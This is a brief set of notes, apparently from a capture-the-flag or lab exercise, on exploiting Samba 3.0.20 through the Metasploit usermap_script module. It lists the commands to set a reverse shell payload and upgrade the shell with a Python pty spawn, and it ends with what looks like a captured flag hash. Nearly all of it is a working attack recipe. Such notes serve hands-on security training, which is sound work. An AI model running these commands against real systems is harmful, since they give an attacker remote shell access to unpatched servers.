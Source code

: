 exploit smb with samba 3.0.20

`use exploit/multi/samba/usermap_script`

`set payload cmd/unix/reverse`

`python -c 'import pty; pty.spawn("/bin/bash")'`

to get out of shell

92caac3be140ef409e45721348a4e9df
